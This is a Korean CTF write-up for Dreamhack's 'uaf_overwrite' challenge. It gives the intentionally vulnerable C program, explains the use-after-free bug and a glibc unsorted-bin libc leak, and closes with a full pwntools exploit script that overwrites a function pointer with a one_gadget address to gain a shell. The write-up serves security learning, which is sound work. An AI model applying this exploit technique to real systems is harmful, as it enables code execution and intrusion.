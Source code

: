 ```yaml
---
title: "System Hacking Wargame - Dreamhack: uaf_overwrite"
categories: [Security, SystemHacking]
tags: [pwnable, uaf, wargame, allocator] # TAG names should always be lowercase
---
```


[uaf_overwrite](https://dreamhack.io/wargame/challenges/357)


## 문제의 코드

```c
// Name: uaf_overwrite.c
// Compile: gcc -o uaf_overwrite uaf_overwrite.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

struct Human {
  char name[16];
  int weight;
  long age;
};

struct Robot {
  char name[16];
  int weight;
  void (*fptr)();
};

struct Human *human;
struct Robot *robot;
char *custom[10];
int c_idx;

void print_name() { printf("Name: %s\n", robot->name); }

void menu() {
  printf("1. Human\n");
  printf("2. Robot\n");
  printf("3. Custom\n");
  printf("> ");
}

void human_func() {
  int sel;
  human = (struct Human *)malloc(sizeof(struct Human));

  strcpy(human->name, "Human");
  printf("Human Weight: ");
  scanf("%d", &human->weight);

  printf("Human Age: ");
  scanf("%ld", &human->age);

  free(human);
}

void robot_func() {
  int sel;
  robot = (struct Robot *)malloc(sizeof(struct Robot));

  strcpy(robot->name, "Robot");
  printf("Robot Weight: ");
  scanf("%d", &robot->weight);

  if (robot->fptr)
    robot->fptr();
  else
    robot->fptr = print_name;

  robot->fptr(robot);

  free(robot);
}

int custom_func() {
  unsigned int size;
  unsigned int idx;
  if (c_idx > 9) {
    printf("Custom FULL!!\n");
    return 0;
  }

  printf("Size: ");
  scanf("%d", &size);

  if (size >= 0x100) {
    custom[c_idx] = malloc(size);
    printf("Data: ");
    read(0, custom[c_idx], size - 1);

    printf("Data: %s\n", custom[c_idx]);

    printf("Free idx: ");
    scanf("%d", &idx);

    if (idx < 10 && custom[idx]) {
      free(custom[idx]);
      custom[idx] = NULL;
    }
  }

  c_idx++;
}

int main() {
  int idx;
  char *ptr;

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);

  while (1) {
    menu();
    scanf("%d", &idx);
    switch (idx) {
      case 1:
        human_func();
        break;
      case 2:
        robot_func();
        break;
      case 3:
        custom_func();
        break;
    }
  }
}
```

## Check Point

### Code Vuln
- `sizeof(struct Human) == sizeof(struct Robot)` 이므로 서로 메모리 할당/해제 시 청크 재사용의 여지가 있다.

- `Robot::fptr`, `Human::age`가 메모리상 상대 위치가 같고, 크기도 같다. `robot_func`에 따르면 `fptr`에 뭔가 있으면 불러온다. 따라서 `Human::age`에 임의 함수 주소를 넣고, `Robot`객체를 만들면 임의 함수가 실행된다.

- `custom_func`에서 임의 크기만큼의 청크를 할당 및 해제하고 해당 객체에 데이터를 쓰고 출력할 수 있다. 이는 libc_base leak으로 이어질 여지가 있다.

### ptmalloc2 :: unsortedbin-libc

#### Feature of unsorted bin
unsorted bin에 처음 연결되는 청크는 libc 영역의 특정 주소와 Circular Doubly Linked List 를 형성한다.

unsorted bin에 속하는 청크는 Top Chunk와 병합 대상이므로 둘이 맞닿아 있으면 병합된다.

#### How to Connect to unsorted bin
0x410 이하 크기의 청크는 tcache에 먼저 삽입된다. 따라서 이보다 큰 청크를 해제하면 unsorted bin에 연결된다.

## Write-up
위 성질들을 이용해서 시나리오를 짜보자

1. leak libc_base

  - custom 함수를 통해 unsorted bin에 청크를 연결시키고 이를 다시 재할당하는 과정에서 하위 8비트가 오염된 fd영역을 출력할 수 있다.

  - 이 임의 주소와 libc_base 까지의 offset(정적 분석으로 gdb에서 사전조사)을 빼면 libc_base가 유출된다.

2. age로 one_gadget주소를 갖는 Human 객체를 생성, 할당, 해제한다.

3. 이후 생성되는 Robot 객체는 Human객체에 사용된 청크를 재사용 하므로 fptr에 one_gadget이 입력되어있다.

4. one_gadget이 실행된다.

### Exploit Code
```python
from pwn import *


#p = process("./uaf_overwrite")
p = remote("host3.dreamhack.games", 14086)
e = ELF("./uaf_overwrite")
libc = ELF("./libc-2.27.so")

def slog(name, addr): return success(": ".join([name, hex(addr)]))

def human(weight:int, age:int):
    p.sendlineafter(b">", b'1')
    p.sendlineafter(b": ", str(weight).encode())
    p.sendlineafter(b": ", str(age).encode())


def robot(weight:int):
    p.sendlineafter(b">", b'2')
    p.sendlineafter(b": ", str(weight).encode())

def custom(size, data, idx):
    p.sendlineafter(b'>', b'3')
    p.sendlineafter(b': ', str(size).encode())
    p.sendafter(b': ', data)
    p.sendlineafter(b': ', str(idx).encode())


custom(0x500, b'AAAA', -1)
custom(0x500, b'AAAA', -1)
custom(0x500, b'AAAA', 0)
custom(0x500, b'B', -1)

lb = u64(p.recvline()[:-1].ljust(8, b'\x00')) - 0x3ebc42
og = lb + 0x10a41c


slog("libc_base", lb)
slog("one_gadget", og)

human(1, og)
robot(1)

p.interactive()
```

